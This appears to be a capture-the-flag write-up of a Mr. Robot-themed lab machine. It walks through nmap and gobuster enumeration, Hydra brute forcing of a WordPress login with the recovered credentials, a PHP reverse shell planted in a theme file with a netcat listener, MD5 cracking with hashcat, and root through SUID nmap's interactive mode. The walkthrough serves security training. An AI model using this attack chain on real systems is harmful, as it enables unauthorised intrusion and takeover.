




# Mr Robot

In this room we are going to attempt to get root in a Mr. Robot styled machine! Let's begin.

### Port Enumeration

Firstly we are going to perform port enumeration on the target using nmap:

```
nmap <ip> -A -T4
```


Great we know that the machine has is hosting a web server and its SSH port is closed.


### Web Page Enumeration

After opening the website I explored it a little, typed all the available commands on th console to see if any information would be disclosed to the user and decided to check out the robots.txt file.


> /fsocity.dic
>
> /key-1-of-3.txt

Two different files can be accessed, the first being a dictionary of words and the second the first key!

### Web enumeration

With the dictionary file I though that the next natural step would be to perform a web enumeration attack with gobuster. Hence, I used the fsocity dictionary for this purpose. Before doing so I checked how big was the fil and how many duplicate lines it had.



This first command calculates the amount of lines in the file. It's a big file but are there any duplicate lines?

```
cat fsocity.dic | wc -l
```

The second and third command tells us how many entries have duplicates (-d) and how many are unique (-u). 

```
sort fsocity.dic | uniq -d | wc -l
sort fsocity.dic | uniq -u | wc -l
```

Meaning that we can generate a file with 11451 entries instead of the original 858160 lines. Th command below does this:

```
sort fsocity.dic | uniq > newfsocity.dic
```

Great, now let's run gobuster:

```
gobuster dir -u http://10.10.232.44 -w /home/kali/Downloads/newfsocity.dic -t 10
```



You can explore the different results, but thee one that is of particular interest is the `/login` which redirects us to a Wordpress login portal. I tried entering with the classic admin:admin combo but to no avail. Let's perform some Wordpress enumeration then. 

```
wpscan --url <url>
```

Unfortunately, got no users and no interesting vulnerabilities. Let's move on to the login portal.

### Hydra Dictionary Attack

In the past I have seen some login portals that enable the user to perform username enumeration and this one was vulnerable since the error given back with a random username and password combo was "Invalid username". Hence, we can perform a two-staged dictionary attack. First, attempting to discover the username and afterwards the password.

First let's perform an attack with the fsocity dictionary for the username and a tatic password of `a`. Use burp suite or inspect element to extract the POST login request and build the command as below:

```
hydra 10.10.232.44 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.232.44%2Fwp-admin%2F&testcookie=1:Invalid username" -L ./fsocity.dic -p a -f -V
```


Great! We got the username which is `Elliot`.

```
hydra 10.10.232.44 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.232.44%2Fwp-admin%2F&testcookie=1:Invalid username" -L ./fsocity.dic -p a -f -V
```

Now adapt the command for the password dictionary attack:

```
hydra 10.10.232.44 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.232.44%2Fwp-admin%2F&testcookie=1:ERROR" -l Elliot -P ./fsocity.dic -f -V
```

Great! We obtained the login credentials!

> It's important to note that if we did not eliminate duplicate entries this attack would have taken A LOT of time to complete. This was an important step to shorten the attack.

login: Elliot

password: ER28-065



We are in!

### Alternative method

In the Gobuster output above we can see a `/license` endpoint. If we inspect the page it appears to provide no information. Nonetheless, by inspecting element or scrolling down a bunch we can get a base64 string.

```
echo "base64 string" | base64 -d
```

This provides us with login credentials to the WP dashboard. 

### Reverse Shell

Now to get a reverse shell it's quite easy to do. We simply have to access the "Appearance" option and edit one of thee php files. I chose the 404.php since it is quite easy to trigger. We substitute thee code with a PHP reverse shell payload such as this one. https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

We modify thee ip and port numbers, start a nc listener:

```
nc -lnvp 4444
```

And trigger the payload by navigating to a non existing page such as `/abc`.

Great! We got a working shell.

### Privilege Escalation (Robot)

Let's do some enumeration:

```
whoami
```

We are user daemon and we can read the contents of the robots home directory which has two files. The second key and file with the password of the robot user MD5 hashed. Despite not being able to read the second flag we can read the md5 hash.

Let's crack it using hashcat:

```
hashcat -m 0 -a 0 hash.txt /usr/share/wordlist/rockyou.txt
```



Great but there is a problem. Since we cannot use the su command we cannot change our current user.

This can be fixed by upgrading our shell using python. We can check that it is installed and upgrade our shell using:

```
python --version
python -c 'import pty; pty.spawn("/bin/bash")'
```

Great! Now we can change to the robot user and get the second key.


### Privilege Escalation (Root)

Finally, we have two options:

1. Linpeas
2. Manual Enumeration

Both will tell you that nmap has the SUID bit set which can be used for Privilege Escalation. In order to do get this information manually we have to run a command such as:

```
find / -type f -perm -04000 -ls 2>/dev/null
```


Great, now just go to https://gtfobins.github.io/gtfobins/nmap/ and we can see that nmap has an interactive mode we can use to run commands.

```
/usr/local/bin/nmap --interactive
!sh
whoami
```

Great! We are root. Read the content of the flag on the /root directory and you are done!
